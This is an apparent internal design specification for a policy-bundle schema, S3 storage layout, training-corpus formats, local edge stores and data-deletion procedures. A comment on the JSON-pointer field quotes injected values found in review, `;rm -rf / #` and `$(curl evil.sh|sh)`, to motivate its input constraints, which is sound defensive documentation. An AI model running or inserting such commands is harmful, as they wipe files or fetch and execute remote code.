;   1. SPLICE AMBIGUITY. Two variable-length fields (the section bytes and
;      `channel`) are concatenated with no length prefixes and no domain
;      separation, so the byte string does not uniquely determine its parse.
;   2. IT DOES NOT COVER THE ENVELOPE. `issued_at`, `max_age`, `prev_hash` and
;      `schema` are signed by nothing. Backdating the unsigned `issued_at`
;      revives a ROTATED-OUT key without re-signing (the edge decides key
;      validity by comparing key windows against that field), and an attacker
;      who can set `max_age` sets the fail-static floor itself.
;   3. IT DOES NOT COVER THE SECTION NAME, so one key published into all six
;      rings makes 05 §4.5's section-split a configuration property with zero
;      code enforcement — a `route` signature replays as a `verify` signature.
;
; The signing input is therefore a DOMAIN-SEPARATED CANONICAL-CBOR STRUCTURE,
; matching the receipt plane's discipline (`mark1-label-v1\0`) rather than
; inventing a second one. Canonical CBOR is self-delimiting, so ambiguity is
; closed by construction instead of by careful field ordering:
;
;   signing_input = h'6d61726b312d62756e646c652d763100' ... i.e.
;                   b"mark1-bundle-v1\0" || canonical-CBOR(bundle-sig-input)
;
;   bundle-sig-input = {
;       schema:       tstr,        ; the envelope's own `schema`
;       section_name: section-name,
;       tenant_id:    bstr .size 16,
;       channel:      tstr,
;       seq:          uint,
;       issued_at:    time,
;       max_age:      uint,
;       prev_hash:    bstr .size 32,
;       section:      bstr,        ; canonical-CBOR bytes of THAT section, as a bstr
;   }
;
; `inclusion` is the one envelope field excluded, for the same reason it is
; excluded from `body_sha256`: a transparency-log leaf cannot commit to the
; proof of its own inclusion.

sections = {
    verify:     verify-section,
    route:      route-section,
    memory:     memory-section,
    cortex:     cortex-section,
    gates:      gates-section,
    agent_maps: agent-maps-section,
}

; ── verify: everything C3's fusion needs ─────────────────────────────────
verify-section = {
    anchors:            [* anchor-enable],
    verifiers:          [* verifier-model],
    priors:             posterior4,            ; base rates over (satisfied, violated, refused, error) — order fixed
    correlation_groups: [* correlation-group],
    quarantine:         [* verifier-id],       ; verifiers whose votes fusion must ignore
}

anchor-enable = {
    catalog_id: tstr .regexp "[a-z0-9_.-]{1,64}",  ; an ID into the LOCAL consented catalog — never a command
    enabled:    bool,
    ? thresholds: { * tstr => float },
    ? debounce_ms: uint,
}   ; STRICT: unknown keys reject the bundle (see decode rule below)

verifier-id = tstr .regexp "[a-z0-9_.@-]{1,128}"

verifier-model = {
    verifier_id: verifier-id,
    confusion:   confusion4x3,          ; row = true verdict (order fixed), col = OBSERVED SIGNAL
}

posterior4   = [satisfied: float, violated: float, refused: float, error: float]
signal3      = [accept: float, reject: float, abstain: float]
confusion4x3 = [signal3, signal3, signal3, signal3]

; DECISION D-R (lead, binding). This was `confusion4x4` (verdict×verdict) plus a
; separate `abstention-model`, which contradicted 06 §3.1's `confusion[v]: 4x3`
; over {accept, reject, abstain} — and the two halves of the estate implemented
; the two different shapes. 06 wins, because it is the shape the algorithm that
; actually runs consumes: Paper II's ADJUDICATE takes `NormalizedVote =
; accept | reject | abstain`, and NO verifier in this system emits a verdict —
; anchors emit signals and judges are normalized to signals before fusion. A
; 4x4 verdict×verdict matrix parameterises an observation model nothing produces.
; The separate `abstention` model is DELETED rather than kept: P(abstain | t) is
; exactly the third column, and specifying one quantity in two places is how the
; Rust and Python halves diverged in the first place.
;
; NORMATIVE, and enforced at decode: every `signal3` row MUST sum to 1.0 within
; float tolerance, and `priors` (a `posterior4`) MUST sum to 1.0. A per-entry
; [0,1] range check is NOT sufficient — an all-zero `priors` passes a range check
; and then makes the Python twin's softmax raise "zero posterior mass", i.e. a
; validly-signed bundle that detonates fusion at runtime. A row that is not a
; distribution is a compiler bug, and it dies at decode (`M1E-3001`).

correlation-group = {
    group_id: tstr,
    members:  [+ verifier-id],   ; fusion counts a group once, not per member — kills double-counted evidence
}
; NORMATIVE: the syntactic anchors ∪ {test anchors} form their own group in every
; shipped bundle — a linter and a test suite failing on the same diff is ONE
; observation about the diff, not two independent ones.

; ── route: ladders, knees, exploration ────────────────────────────────────
route-section = {
    cpvs:     [* cpvs-row],
    ladders:  [* ladder],
    knee:     knee-table,
    ? exploration: { epsilon: float .default 0.0 },  ; ε>0 is per-tenant contractual opt-in; default 0 ⇒ propensity 1.0 logged honestly
    ? exploration_opt_in: bool,                       ; D-EF: the signed half of that opt-in. ε>0 with this key present-and-false is a
                                                      ; schema refusal (M1E-3001) in both decoders and at the publisher; the edge additionally
                                                      ; applies ε>0 only under a local `<state>/gates/opt-in.json` {"exploration": true},
                                                      ; else ε=0. Key absence refuses exactly like present-false since the 2026-09-16 re-freeze (D-EI).
}

ladder = {
    ladder_id: tstr,
    rungs:     [+ { model_id: tstr, keep_prefix: bool }],
}

cpvs-row = { task_class: tstr, model_id: tstr, p_pass: float, tokens_est: uint }

knee-table = {
    cost_basis: "usd" / "quota",       ; DUAL basis: usd = tokens×price+verifier spend (API-key tenants);
                                       ; quota = rate-limit-window fraction × wall-clock shadow price (subscription tenants)
    rows: [+ { n: uint, c_n: float, ? p_lcb: float }],
                                       ; c(n) at attempt n; gate stops when p̂_LCB(n)·V(task) ≤ c(n).
                                       ; DECISION D-Z (lead, binding): p_lcb IS the wire source of
                                       ; 04 §2.3's p̂_LCB(n) — the policy compiler's lower confidence
                                       ; bound on P(success at attempt n) for this table's task class.
                                       ; It was named by 04 and by the knee inequality but carried by
                                       ; NO frozen surface (CPVS p_pass is per (task_class, model),
                                       ; not attempt-indexed), so KneeState had no way to be populated
                                       ; from a bundle. OPTIONAL, deliberately: the 23 frozen bundle
                                       ; vectors predate it and stay valid, and a compiler that has
                                       ; not fitted a row yet must be able to say so. ABSENT ⇒ the
                                       ; knee is not evaluable at that n ⇒ Stop = false. Never stop on
                                       ; missing data — the posture matrix's first row.
    v_default: float,                  ; V(task) fallback when no task-class estimate exists
}

; ── memory / cortex / gates ───────────────────────────────────────────────
memory-section = {
    injection_rules: [* { facet: tstr, ? max_items: uint }],
    budgets: { pack_tokens_max: uint },
}

cortex-section = {
    map_budget_tokens: { min: uint, max: uint },   ; budget-binary-search bounds
    channels: [* ("session_start" / "prompt_submit" / "before_model")],
    ? learned_ranker: learned-ranker,              ; ABSENT ⇒ no learned ranker: cortexd serves PPR order (06 §12.4)
}

learned-ranker = {
    stage:        "probation" / "shadow" / "active",  ; closed enum (rule 1c): probation/shadow are diagnostic-only and serve PPR order
                                                      ; bit-identically; active blends (ppr + w·learned)/(1+w) INSIDE PPR's top-k, never
                                                      ; admitting or dropping a file (10 §11.3)
    weight:       float,                              ; blend weight w ∈ [0,1]; outside it, or non-finite, is M1E-3001 at decode — never clamped at cortexd
    bias:         float,                              ; finite
    coefficients: [4 float],                          ; finite; one per cortexd file feature [fan_in, recency, path_depth, tag_count]
                                                      ; (l2_graph::FEATURES). Exactly 4: a different arity is M1E-3001.
}
; Delivery: mark1d publishes the applied bundle's learned_ranker at <state>/run/ranker.json (0600, atomic) and every
; supervised cortexd reads it via --ranker-file at boot and on change; the only constructor is RankerWeights::new, so a
; file the decoder would have refused leaves cortexd on PPR order and counts ranker_rejected. Frozen vectors:
; cortex_learned_ranker (accept), cortex_ranker_weight_out_of_range, cortex_ranker_bad_stage (schema negatives).

gates-section = {
    stop_gate_enabled:      bool,
    max_consecutive_blocks: uint .le 3,   ; bundle may LOWER the local hard cap, never raise it
    hourly_block_ceiling:   uint,
    ; a bundle may downgrade closed→open only; fail-closed requires local on-disk tenant opt-in
}

; ── agent_maps: vendor formats as DATA ────────────────────────────────────
agent-maps-section = {
    agents: [* agent-map],
}

agent-map = {
    agent_id:      tstr,               ; "claudecode" | "codex" | "gemini" | ...
    agent_version: tstr,               ; the pinned version the map was validated against
    hook_fields:   { * m1p-field => json-pointer },  ; e.g. "usage.input_tokens" => "/message/usage/input_tokens"
    tailer_rules:  { * tstr => json-pointer },       ; transcript field extraction, incl. the (message.id, requestId) dedupe pair
}
m1p-field    = tstr .regexp "[a-z0-9_.]{1,64}"
json-pointer = tstr .size (0..1024) .regexp "(/[^/~]*(~[01][^/~]*)*)*"   ; RFC 6901 — a POINTER into vendor JSON, structurally incapable of naming a command
; The .size bound is not decoration. RFC 6901's grammar admits ANY byte except an
; unescaped '~' — review confirmed that a signed bundle accepted pointer values
; containing `;rm -rf / #`, `$(curl evil.sh|sh)`, embedded newlines and tabs, and
; a 4001-character pointer. All are doc-conformant, which is the point: pointers
; are the ONE production in this schema whose contents are not otherwise
; constrained, so "structurally incapable of naming a command" rests on the
; CONSUMER treating them as pointers. The length bound is the part decode can
; enforce; every consumer must resolve them as RFC 6901 pointers and never as text.
```

`agent_maps` exists so a vendor changing its hook payload or transcript shape is **a bundle push, not a release**: the shim and tailers evaluate field maps as data, and the pinned `agent_version` plus conformance fixtures make a bad map a canary failure rather than a fleet outage.

**The decode-time rejection rule (normative, enforced in `mark1-policy` and the Go twin):**

1. **No command strings and no code anywhere in a bundle.** There is no field in this schema whose value is executed, evaluated, templated into a shell, or loaded as a module — and the decoder enforces that *structurally*, not by scanning: every `tstr` is either (a) a constrained identifier (`catalog_id`, `verifier_id`, `m1p-field` — regex-bounded, no whitespace, no `/` except JSON pointers), (b) an RFC 6901 JSON pointer, (c) a closed enum, or (d) — for the fields this CDDL writes as a bare `tstr` (`channel`, `agent_id`, `agent_version`, `model_id`, `task_class`, `ladder_id`, `facet`, `group_id`, and the key positions of `thresholds` and `tailer_rules`) — the fallback identifier production `[A-Za-z0-9_.:@-]{1,128}`. Clause (d) is what makes this rule's "every `tstr`" literally true rather than aspirational: a bare `tstr` in the grammar above is shorthand for that production, never for arbitrary text, and the decoder applies it. A violation is `M1E-3005`, the same code as an explicit command string, because an unconstrained string field is exactly how one would arrive. Any string failing its production's constraint **fails decode of the whole bundle** — there is no partial acceptance, because a half-applied bundle is an untested policy.
2. Anchors are enabled by **local-catalog ID only**. The catalog lives on the device, is user-consented, and is re-consented on change; a bundle can turn a consented anchor on or off and tune thresholds — it cannot introduce, rename, or define one.
3. **Strict maps everywhere:** an unknown key in any section fails decode. Forward compatibility is a new `policy_bundle.v2`, never a tolerated stray key — tolerated strays are how command fields sneak in later.
4. **No `wasm_module` field exists**, in this schema or any section of it. The bundle→RCE branch is deleted from the design, not mitigated; a v2 that wanted executable policy would be a new ADR-level decision with its own signing regime, not a field addition.
5. Signature, `seq` monotonicity, and transparency-log inclusion are verified **before** section decode; `prev_hash` is verified against the last-accepted bundle; failure at any step leaves last-known-good in force (fail-static).

## S3 layout

Four buckets by prefix *class* (not one bucket with mixed classes — retention, object-lock, and IAM posture differ per class, and bucket-level controls are the ones that can't be mis-scoped by a prefix typo). Within every bucket, the first path component is the tenant: `t/<tenant_uuid>/…`, and every object is SSE-KMS encrypted under that tenant's dedicated key (`alias/mark1-tenant-<tenant_uuid>`). Bucket policies **deny** any `PutObject` whose `s3:x-amz-server-side-encryption-aws-kms-key-id` does not match the key derived from the prefix — cross-tenant encryption is a write failure, not an audit finding. Tenant-prefix IAM conditions are one of the four surfaces the per-PR tenant-isolation negative tests attack.

```
── omium-mark1-ingest-<env> ────────────────────────── the replay log ──
t/<tenant>/ingest/v1/dt=<YYYY-MM-DD>/hh=<HH>/<batch_uuidv7>.m1p.zst
    The raw zstd protobuf batch, byte-identical to what the device sent.
    controld.ingest ACKs the device ONLY after this object lands — the ack
    IS the durability promise, so this prefix is the canonical, replayable
    event stream (ClickHouse is a downstream view of it; §ADR-0001).
    batch_uuidv7 in the key ⇒ idempotent re-PUT on retry, lexicographic
    listing ≈ chronological replay order.
t/<tenant>/quarantine/v1/dt=<YYYY-MM-DD>/<batch_uuidv7>.m1p.zst
    4xx / pre-egress-scanner-flagged batches; never replayed automatically.

── omium-mark1-corpus-<env> ──────────────────────────────────────────
t/<tenant>/parquet/v1/export=<export_uuidv7>/dt=<YYYY-MM-DD>/part-<n>.parquet
t/<tenant>/kto/v1/export=<export_uuidv7>/manifest.json
t/<tenant>/kto/v1/export=<export_uuidv7>/rows.jsonl
    Both corpus forms (§Corpus schemas below), keyed by the SAME export_id
    so one receipt covers the pair. Immutable by convention: an export is
    never rewritten, a corrected export is a new export_id.

── omium-mark1-evidence-<env> ───────────────────────────── opt-in ───
t/<tenant>/evidence/v1/<tier>/<event_id>.bin        ; tier = e1 | e2
    Exists only for tenants who opted into E1/E2 evidence classes;
    structurally scrubbed and redaction-receipted before upload.

── omium-mark1-witness-<env> ─────────────────────────────────────────
heads/<tenant>/dt=<YYYY-MM-DD>/<hour>.json
    Hourly chain-head hashes. ALSO mirrored to the customer-controlled
    object-lock bucket where the tenant configures one — the external
    witness must not be exclusively in Omium's blast radius.
```

**Object-lock / retention posture per class:**

| Prefix class | Versioning | Object lock | Retention | Why |
|---|---|---|---|---|
| `ingest/` (replay log) | On | **GOVERNANCE**, 35 days | Lifecycle: Glacier IR at 90 d, delete at 760 d | The replay window must survive an operator mistake or a compromised writer (governance lock), but tenant offboarding must be able to delete it — COMPLIANCE mode would make a legal deletion obligation unsatisfiable. Governance bypass requires the offboarding role under dual control. |
| `quarantine/` | On | GOVERNANCE, 30 days | controld sweep deletes at 30 d with a `quarantine_deletion` receipt row (founder ruling 2026-09-16, D-EI); lifecycle expires at 32 d as the backstop, and a sweep that finds the object already gone still writes the receipt naming the backstop | Same tamper posture; short life — quarantine is a triage queue, not an archive. The never-replay marker is the Postgres tombstone (`m1_quarantined_batches`), not the object's existence. |
| `parquet/`, `kto/` (corpus) | On | None | Tenant-configured; default delete at 400 d | Integrity comes from the export receipt (digests in the chain), not from lock; corpus must be deletable on demand (erasure → retrain path). |
| `evidence/` | On | None | ≤ 90 d hard ceiling | Highest-sensitivity class gets the shortest life; opt-in never means indefinite. |
| `witness/heads/` | On | **COMPLIANCE**, 2 years | No delete | Chain heads are 32-byte hashes — zero content, maximal integrity value; this is the one class where "cannot be deleted by anyone including us" is exactly the product promise. |

The S3-first sequencing, spelled once: device uploads batch → `controld.ingest` verifies token + stamps tenancy → runs the pre-egress secret scanner → `PutObject` to `ingest/` → **HTTP 200 to the device** → async-insert to ClickHouse. A ClickHouse outage delays the ledger view; it never loses events and never blocks the device's ack.

## Corpus schemas — BOTH forms, and why both exist

### (a) The receipted Parquet mirror (analytics)

Written by `mark1-intel.corpus-exporter`, read by embedded DuckDB (batch analytics) and by the training plane's Parquet-side tooling. Certified-only, tamper-excluded rows.

```
mark1_trajectory.v1.parquet — one row per certified task outcome
──────────────────────────────────────────────────────────────────────────
task_id                  BYTE_ARRAY (UUID, 16-byte)   required
tenant_id                BYTE_ARRAY (UUID)            required   ; also the partition — belt and braces
session_id               BYTE_ARRAY (UUID)            required
task_seg_version         BYTE_ARRAY (UTF8)            required
agent                    BYTE_ARRAY (UTF8)            required
model                    BYTE_ARRAY (UTF8)            required
prompt_digest            BYTE_ARRAY (32 bytes)        required   ; per-tenant HMAC-salted — never the prompt
verdict                  BYTE_ARRAY (UTF8)            required   ; exactly: satisfied | violated | refused | error
verdict_stage            BYTE_ARRAY (UTF8)            required   ; certified | revised (provisional rows never export)
p_satisfied              FLOAT                        required
p_violated               FLOAT                        required
p_refused                FLOAT                        required
p_error                  FLOAT                        required
label_confidence         FLOAT                        required   ; f(posterior, noise certificate) — C11's admission signal
noise_cert_id            BYTE_ARRAY (UUID)            required   ; uncertified/bootstrapping verdicts are NOT admitted
input_tokens             INT64                        required
output_tokens            INT64                        required
cache_read_input_tokens  INT64                        required
attempts                 INT32                        required
propensity               DOUBLE                       optional   ; from RouteDecision; absent on non-routed tasks
fidelity                 BYTE_ARRAY (UTF8)            optional   ; wire_enforced | config_steered | advisory
checkpoint_seq           INT64                        required   ; receipt lineage — the erasure→retrain join key
created_at               INT64 (TIMESTAMP_MICROS)     required
```

Layout: `t/<tenant>/parquet/v1/export=<export_id>/dt=<YYYY-MM-DD>/part-<n>.parquet`, ZSTD compression, row groups ≈ 128 MiB (DuckDB's happy scan size). Per-tenant partitioning is physical (the prefix) *and* logical (the column) so a mis-listed prefix still cannot silently blend tenants in a scan that filters on the column. No paths, no excerpts, no diffs — the default-tier evidence rule holds in the corpus too; digests only.

### (b) The KTO JSONL + `manifest.json` pair (what the trainer actually reads)

The trainer (`training-jobs`) loads `<dataset_uri>/manifest.json` + `<dataset_uri>/rows.jsonl` — **not Parquet**. This mirrors `DatasetManifest` and `KtoRow` from `training-jobs/src/training_jobs/{dataset,rows}.py` field-for-field; those files are the contract and this table restates them, it does not amend them.

```
manifest.json — mirror of training_jobs.dataset.DatasetManifest
──────────────────────────────────────────────────────────────────────────
dataset_id            str      required
tenant_id             str      required
cluster_id            str      required
split                 str      required   ; "train" | "holdout" — assert_trainable() refuses anything but "train"
kto_rows              int      default 0
preference_pairs      int      default 0
n_desirable           int      default 0
dedup_ratio           float    default 0.0
isomorphic_verified   bool     default false
influence_selected    bool     default false
leak_free_asserted    bool     default false
arrow_uri             str      default ""
built_at              str|null default null
```

```
rows.jsonl — one training_jobs.rows.KtoRow per line
──────────────────────────────────────────────────────────────────────────
recovery_attempt_id       str            required   ; Mark 1 stamps its attempt UUID here — the trainer treats it as an opaque id + join key
tenant_id                 str            required
prompt                    str            required   ; non-empty, or the row is malformed
label                     str            required   ; "desirable" | "undesirable"
reward                    int            required   ; 1 | 0 — MUST match label (desirable↔1); mismatch = dropped, counted
holdout_bucket            str            required   ; only "train" is ever trainable (leak-free invariant, fail-closed)
failure_signature_hash    str|null       optional
fix_class                 str|null       optional
completion_ref            object         optional   ; { solution_id?: str, jsonl_ref?: str, strategy_type?: str } — all optional, never fabricated
verification_confidence   float|null     optional
consensus_verdict         str|null       optional
decisive_step_source      str|null       optional   ; "replay_derived" | "llm_guessed" — only replay_derived is gradient-eligible
propensity                float|null     optional
created_at                str|null       optional   ; RFC 3339
completion                str|null       optional   ; EXTENSION: inlined body; Mark 1's exporter POPULATES this (see below)
```

The trainer's decode is fail-soft per line with a counted drop taxonomy — `malformed / empty / non_train_split / reward_label_mismatch` — and its completion ladder is `inline completion` → deref `completion_ref.jsonl_ref` → deterministic render from `fix_class`; a row resolving no completion is dropped and counted, never trained on with an invented target. Mark 1's exporter therefore **inlines `completion`** (the field exists in the wire shape precisely as a dataset-assembler extension), because Mark 1 has no orchestrator WORM rows for the deref rung to hit, and label-mapping is fixed as: certified `satisfied` → `desirable`/`reward=1`; certified `violated` → `undesirable`/`reward=0`; `refused` and `error` rows are **not exported to KTO at all** (Paper II: infrastructure failure is not a preference signal).

**Why both forms exist, in one paragraph.** Parquet is the analytics form — columnar, partition-prunable, DuckDB-native — but the Arrow/Parquet analytic schema cannot drive KTO training: as `dataset.py` states in its own docstring, the refinery's Arrow shard schema carries `(recovery_attempt_id, prompt, completion_ref, verification_confidence, n_tokens)` and **no label column**, so shards alone cannot supply the desirable/undesirable signal KTO optimizes on. The JSONL rows are the label-bearing source of truth; the Parquet mirror is the query-optimized projection. One receipt covers both because both are written under the same `export=<export_uuidv7>` key prefix and the export receipt (per-event receipt class "corpus exports") canonically lists every object — `{key, byte_len, sha256}` for each `part-*.parquet`, `manifest.json`, and `rows.jsonl` — plus the row count and `checkpoint_seq` lineage, chained and dual-signed. Verify the receipt and you have verified both forms; regenerate either form and the digests diverge and the receipt catches it.

### The `mark1-parquet` source in data-refinery

**There is no pluggable source trait to implement** — `CorpusReader` in `services/data-refinery/src/corpus/mod.rs` is a concrete struct whose corpus read today is `scan_worm` / `read_train_rows` (currently HTTP against the orchestrator's `export-rlvr` endpoint). The Mark 1 source is an **added constructor + method pair on that concrete struct**, matching the existing signatures exactly:

```rust
impl CorpusReader {
    /// Mark 1 corpus source: reads the exporter's kto/v1 pair from S3 instead of the
    /// orchestrator endpoint. Same seams (S3 + both pools), no new trait, no new struct.
    /// `mark1_prefix` e.g. "s3://omium-mark1-corpus-prod" — None ⇒ this source fails
    /// closed (finds nothing; never fabricates), mirroring the orchestrator-seam posture.
    pub fn new_mark1(
        s3: S3,
        worker: WorkerPool,
        app: AppPool,
        mark1_prefix: Option<String>,
    ) -> Self { /* … */ }

    /// Signature-identical twin of `scan_worm`: lists t/<tenant>/kto/v1/export=*/ under
    /// the prefix, decodes rows.jsonl through VerifiedTrajectory::from_jsonl (fail-soft,
    /// drops counted into the same DecodeReport taxonomy), applies `filter_by_sigs`, and
    /// respects the same CorpusCursor watermark — with consumer = "data-refinery-mark1"
    /// so Mark 1's cursor never collides with the orchestrator source's.
    pub async fn scan_mark1(
        &self,
        tenant: Uuid,
        sigs: &[String],
        since: &CorpusCursor,
        max_keys: usize,
    ) -> RefineryResult<ScanReport> { /* … */ }

    /// Signature-identical twin of `read_train_rows` (the full-rebuild path).
    pub async fn read_mark1_train_rows(
        &self,
        tenant: Uuid,
        sigs: &[String],
        window: Window,
    ) -> RefineryResult<Vec<EnrichedTrajectory>> { /* … */ }
}
```

This works without touching the trainer because `rows.jsonl` **is** the `VerifiedTrajectory` wire shape (`_kto_row`), which `from_jsonl` already decodes, and the enrichment fields the refinery reconciles (`decisive_step_source`, `propensity`) ride inline on Mark 1's rows — so the DB-join fallback arm simply never fires for this source. Inventing a `CorpusSource` trait here would be an abstraction with exactly two implementations owned by one team in one file; the constructor-pair form was chosen because it matches how the struct already grew (the orchestrator seam was itself added as optional constructor params) and keeps the diff reviewable against frozen signatures.

## Local edge stores

Everything under `~/.omium/mark1/` (0700), per-workspace state keyed by `workspace_hash = blake3(canonical_workspace_root)[..16]` so a moved repo re-indexes rather than mis-joins.

### cortexd — redb graph shards

One redb file per enrolled workspace: `~/.omium/mark1/cortex/<workspace_hash>/graph.redb`. redb over SQLite for the graph because the access pattern is key-range scans over binary-keyed tables with single-writer semantics — no SQL surface to maintain, MVCC snapshots for free while PageRank recomputes.

```
redb tables (key → value; values are bincode-encoded structs)
──────────────────────────────────────────────────────────────────────────
merkle:      path_hash(16)                 → { blake3_hash(32), mtime, size }      -- L0; root hash double-serves anchor anti-tamper
symbols:     symbol_id(u64)                → { name, kind, file_hash(16), span }   -- L1 tree-sitter tags
edges_out:   (symbol_id, rank: u32)        → { dst: symbol_id, edge_kind: u8 }     -- L2 petgraph adjacency, rank-prefixed for range scans
pr_scores:   (index_clock: u64, symbol_id) → f32                                   -- personalized PageRank per index generation
meta:        key(str)                      → value                                 -- root_hash, index_clock, grammar_rev, indexer_rev
```

Shard eviction: a workspace disabled via `mark1 off`/un-`enable` keeps its shard for 14 days (fast re-enable), then deletes; the whole `cortex/` tree observes a 4 GiB cap, evicting least-recently-opened workspace shards first. A `grammar_rev`/`indexer_rev` mismatch at open invalidates the shard wholesale (rebuild from the CAS is cheaper than proving partial validity).

### cortexd — SQLite CAS

`~/.omium/mark1/cortex/cas.sqlite3` (one CAS shared across workspaces — parse artifacts for identical content are identical, and vendored deps repeat across repos, so sharing is a real hit-rate win; keyed content-addressed, so sharing leaks nothing between workspaces).

```sql
CREATE TABLE cas (
    path_hash    BLOB NOT NULL,             -- blake3(workspace-relative path), 16 bytes; never the path itself
    content_hash BLOB NOT NULL,             -- blake3(file bytes), 32 bytes
    grammar_rev  TEXT NOT NULL,             -- vendored tree-sitter grammar revision
    query_rev    TEXT NOT NULL,             -- tags-query revision
    indexer_rev  TEXT NOT NULL,             -- cortexd indexer code revision
    artifact     BLOB NOT NULL,             -- zstd bincode: tags / spans / local graph fragment
    byte_len     INTEGER NOT NULL,
    created_at   INTEGER NOT NULL,          -- unixtime
    last_used_at INTEGER NOT NULL,
    PRIMARY KEY (path_hash, content_hash, grammar_rev, query_rev, indexer_rev)
) WITHOUT ROWID;                            -- the PK is the access path; a rowid would just be a second index
CREATE INDEX cas_lru ON cas (last_used_at); -- the eviction scan
PRAGMA journal_mode = WAL;                  -- single writer, concurrent readers during reindex
```

Eviction policy, in priority order: (1) any row whose `grammar_rev`/`query_rev`/`indexer_rev` no longer matches the running toolchain — dead weight, evicted first; (2) LRU by `last_used_at` down to the 1 GiB per-machine cap; (3) `VACUUM` opportunistically when idle and file bloat exceeds 2× live bytes. Never evicted mid-session for entries touched this session (`last_used_at` bump on read makes this automatic).

### Encrypted spill rings

Two rings, one shape: the proxy tee's spill and the hookshim's emergency spill. Fixed-size ring files (256 MiB proxy / 64 MiB shim) of self-delimiting sealed frames `len | ver | ts(u64 ns) | ephemeral_pub(32) | nonce(12) | ciphertext` — ChaCha20-Poly1305 under a key derived per-frame via X25519 against the device spill public key (HMAC-SHA256 KDF, label `"m1p.spill.seal.v1"`). Sealing-to-a-pubkey rather than wrapping a symmetric key means the WRITER holds no decryption capability at all: a stolen laptop's disk yields nothing readable, and neither does a compromised shim process, because only the daemon's private half (minted by `mark1d`, held under file custody) can unseal. The `ts` in the frame is what the ≤24 h TTL is evaluated against at drain. This paragraph originally described `crc32c | nonce(24) | XChaCha20` under a wrapped key; the shipped construction (both ends, byte-for-byte, locked by a cross-language fixture: the Go drain unseals a ring the real Rust shim wrote) is the one stated here. Rules bound to both rings identically: **post-redaction content only** (no pre-redaction plaintext persistence exists anywhere on the device), 0600, cap-with-counted-shed at overflow (v1: the writer stops appending at the cap and counts each refusal in an O_APPEND `.shed` sidecar — see `04` §5.4 for why not in-place eviction), and a **hard ≤24 h TTL with receipted expiry** — the drain emits `Dropped{reason: RING_EXPIRED}` for aged-out frames and converts the shed count to `Dropped{reason: RING_EVICTED}` (§3), so shed spill data is accounted, not vanished. Drained into the spool (through the normal admission path) as soon as mark1d is reachable.

### Raw evidence

`~/.omium/mark1/evidence/<session_id>/<event_id>.<class>` — full anchor outputs, diffs, tool stderr; the material the typed `EvidenceRecord` summarizes. **Never uploaded by default**: upload happens only through the E1/E2 opt-in path, per event, structurally scrubbed and redaction-receipted. Local eviction: 30-day TTL or 2 GiB cap, oldest-session-first; `mark1 off` for a workspace deletes that workspace's evidence immediately (the user turned it off — keeping the raw material would betray the intent of the switch). The `output_hmac` in the corresponding `EvidenceRecord` lets a later audit prove a locally-retained blob is the one the verdict actually saw, without the blob ever having left.

## Retention, TTL and deletion

### The retention matrix (per store, per data class)

| Store | Data class | Retention | Mechanism |
|---|---|---|---|
| ClickHouse | diagnostic events | 90 d | table `TTL … WHERE event_class = 'diagnostic'` |
| ClickHouse | billing / verdict / route / receipt-ref events | 760 d (25 mo) | table `TTL` (blanket clause) |
| ClickHouse | rollup tables | 760 d | partition `TTL` on `day` |
| S3 `ingest/` | raw batches (replay log) | 760 d; Glacier IR at 90 d | lifecycle + 35 d GOVERNANCE lock |
| S3 `quarantine/` | flagged batches | 30 d | controld sweep + receipt (lifecycle 32 d backstop) |
| S3 corpus (`parquet/`, `kto/`) | exports | tenant-configured, default 400 d | lifecycle per tenant prefix |
| S3 `evidence/` | E1/E2 blobs | ≤ 90 d hard ceiling | lifecycle; ceiling is not tenant-raisable |
| S3 `witness/heads/` | chain heads | ≥ 2 y, COMPLIANCE-locked | object lock; contains hashes only |
| Postgres | receipt chain, ε ledger, ACK ledger, bundle catalog | **indefinite** | append-only by trigger; hashes/signatures/params only, no tenant content |
| Postgres | memory artifacts, gold sets, noise certs, device registry | life of tenancy | offboarding job deletes |
| Edge | spool segments | until acked, ≤ 2 GiB | whole-file ack-then-delete |
| Edge | spill rings | ≤ 24 h | receipted expiry sweep |
| Edge | raw evidence | 30 d / 2 GiB | TTL + cap, immediate on `mark1 off` |
| Edge | cortex shards / CAS | 14 d after disable / LRU caps | §Local edge stores |

### The customer-deletion path

A verified deletion request (or tenant offboarding — same machinery, tenant-wide scope) runs one orchestrated job in `controld`, each step receipted:

1. **Revoke** all device tokens for the scope; bundle channel set to a tombstone bundle (edges stop capturing immediately — deletion starts by stopping the inflow).
2. **S3:** delete the tenant's prefixes in `ingest/`, `quarantine/`, corpus, `evidence/`. Objects inside the 35-day GOVERNANCE window are deleted via governance bypass under dual control (two-person offboarding role) — the lock defends against a lone bad actor, not against the tenant's own legal right.
3. **ClickHouse:** `ALTER TABLE … DELETE WHERE tenant_id = <t>` mutations on the events table and all rollups, issued by the offboarding role through the query choke — one of the choke's **two** named write-shaped carve-outs (the other is the `tvo_rollup_tenant_day` insert template, ADR-0010 §2; a third arrives with backfill), and it still carries the tenant predicate by construction.
4. **Postgres:** delete memory artifacts, artifact contributions, gold sets, noise-certificate *inputs*, device rows. The receipt chain rows and ε-ledger rows are **not** deleted (next subsection — they contain no content).
5. **KMS:** schedule the tenant KMS key and the tenant HMAC salt key for deletion (30-day window). This is the backstop that makes steps 2–3 not need to be perfect: any object or backup fragment the sweep missed becomes permanently undecryptable ciphertext when the key dies — **cryptographic erasure covers what enumeration cannot prove it found.**
6. **Edge:** the tombstone bundle instructs mark1d to purge spool, spill, evidence, cortex shards for the tenant's workspaces; purge completion is the final receipted event (fail-static caveat honestly stated: a machine that never comes back online cannot confirm purge — its device key is revoked, so nothing it holds can ever be uploaded or decrypted server-side again).

What offboarding deliberately does **not** delete: witness heads (COMPLIANCE-locked, hash-only), the receipt chain, the ε ledger (the spent-privacy-budget record must survive the data it governed, or the budget was never real), and published federation artifacts — which by (k,m)∩ construction contain no span attributable to any single tenant, so there is nothing of *this* tenant in them to delete.

### Receipts vs deletion — what the chain retains and why that is reconcilable

The hard question: receipts promise permanent verifiability; deletion promises permanent absence. Both hold simultaneously because of one design fact stated at every layer above: **the receipt chain stores hashes, Merkle roots, signatures, key ids, and sequence numbers — never content.** An `effect_receipt` row is ~200 bytes of cryptographic commitment; the content it commits to lives in the deletable stores.

Precisely what surviving hashes buy after a deletion request:

- **Chain integrity survives.** Link `n` commits to link `n−1` by hash; no link's validity depends on the *committed content* still existing. Deleting every event a checkpoint covered leaves the checkpoint receipt, its dual signatures, and its witnessed head fully verifiable — the chain still proves "a batch with this Merkle root was committed at this time, signed by this device and countersigned by Omium."
